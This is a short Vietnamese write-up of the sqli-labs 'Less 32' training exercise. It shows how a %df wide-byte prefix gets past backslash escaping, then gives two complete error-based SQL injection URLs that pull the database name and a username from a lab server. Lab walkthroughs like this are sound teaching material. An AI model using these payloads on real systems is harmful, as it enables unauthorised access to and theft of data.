






# Less 32

Ta thấy đề bài vẫn cho truyền ID vào URL



Thử truyền vào



Tôi thử tìm cách để injection



Tôi thấy ở đây đã thêm các ký tự `\` trước những ký tự đặc biệt để loại bỏ các ký tự này trước những ký tự đặc biệt. Ở đây tôi sử dụng ký tự đặc biệt để bỏ qua ký tự `/`. Ta thêm ký tự `%df` trước ký tự đặc biệt như dấu nháy.



Thử lại


Ta thấy có lỗi hiển thị lên màn hình nên chúng ta có thể khai thác được thông tin của DB thông qua đây

```
http://192.168.84.233/sqli-labs/Less-32/?id=1%df%27%20and%20(SELECT%200%20FROM%20(SELECT%20count(*),%20CONCAT((select%20database()),%200x23,%20FLOOR(RAND(0)*2))%20AS%20x%20FROM%20information_schema.columns%20GROUP%20BY%20x)%20y)%20--+
```



```
http://192.168.84.233/sqli-labs/Less-32/?id=1%df%27%20and%20(SELECT%200%20FROM%20(SELECT%20count(*),%20CONCAT((select%20username%20from%20users%20limit%200,1),%200x23,%20FLOOR(RAND(0)*2))%20AS%20x%20FROM%20information_schema.columns%20GROUP%20BY%20x)%20y)%20--+
```

